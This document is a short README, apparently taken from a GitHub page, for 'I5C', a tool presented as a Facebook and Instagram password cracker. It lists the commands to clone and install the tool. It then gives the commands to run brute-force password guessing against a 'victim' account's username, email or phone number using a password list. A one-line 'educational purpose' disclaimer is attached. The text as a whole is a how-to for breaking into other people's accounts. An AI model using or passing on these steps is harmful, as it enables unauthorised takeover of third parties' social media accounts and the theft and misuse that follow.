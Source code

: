 # I5C
Instant Facebook and Instagram Cracker

COMMANDS:
git clone https://github.com/muhil-modern-keylogher/I5C.git
cd I5C
ls
chmod +x *
pip install -r requirements.txt
bash install.sh
(OPTIONAL. If you get any error, try this command) bash install-if-you-want.sh 

Now, Your setup for this tool is done..

If you want to crack FaceBook password:
cd Facebook
ls
perl fb.pl (username or email id or mobile number of victim) (password list path)

If you want to crack Instagram password:
cd Instagram
chmod +x *
python3 instagram.py (username) (password list path)

Done you are now able to crack Instagram and Facebook Users password

Dislaimer: This tool is only for training and educational purpose don't misuse it.. We are not responsible if any damage caused by this tool. Use it only for good and training purposes

Subscribe to Modern Keylogher.. :)
